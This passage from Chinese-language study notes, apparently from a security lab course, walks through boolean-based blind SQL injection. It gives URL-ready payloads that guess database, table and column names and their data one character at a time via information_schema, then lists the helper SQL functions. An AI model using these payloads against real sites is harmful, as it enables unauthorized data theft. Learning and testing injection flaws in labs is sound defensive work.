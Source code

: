    > 3. 逐字猜解数据库名
   >
   >    > id=1' and substr((select database()),1,1)='a'%23
   >
   > 4. 猜解表名数量
   >
   >    > id=1' and (select count(table_name) from information_schema.tables where table_schema=database())>5%23
   >
   > 5. 猜解某个表名长度 -- 通过limit限制单个表
   >
   >    > id=1' and (select length(table_name) from information_schema.tables where table_schema=database() limit 0,1)>5%23
   >
   > 6. 逐字猜解表名
   >
   >    > id=1' and substr((select table_name from information_schema.tables where table_schema=database()  limit 0,1),1,1)='a'%23
   >
   > 7. 猜解列名数量
   >
   >    > id=1' and (select count(column_name) from information_schema.columns where table_name='表名' and table_schema=database())>5%23
   >
   > 8. 猜解某个列名长度 -- 通过limit限制单个字段
   >
   >    > id=1' and (select length(column_name) from information_schema.columns where table_name='表名' and table_schema=database() limit 0,1)>5%23
   >
   > 9. 逐字猜解列名
   >
   >    > id=1' and substr((select column_name from information_schema.columns where table_name='表名' and table_schema=database() limit 0,1),1,1)='a'%23
   >
   > 10. 判断数据数量
   >
   >     > ?id=1' and (select count(字段名) from 数据库名.表名)>5%23
   >
   > 11. 猜解某条数据长度 -- 通过limit限制单个数据
   >
   >     > ?id=1' and (select length(字段名) from 数据库名.表名 limit 0,1)>5%23
   >
   > 12. 逐位猜解数据
   >
   >     > ?id=1' and substr((select length(id) from hetianlab.comment limit 0,1),1,1)='a'%23

4. 相关函数：SQL语句需嵌套在`()`中

   > * **`length()`**：返回字符串长度
   >
   > * **`substr(string,start,length)`**：对string从start开始截取length长度，同`mid()`函数
   >
   > * `ascii()`：返回指定字符的ASCII编码
   >
   > * `left(string,length)`：从最左边截取length个字符
   >
   > * `right(string,length)`：从最右边截取length个字符
   >
   > * **`count()`**：返回数组中元素的数目，用例：`select count(*) from mytable`
   >
   > * **`limit`**：
   >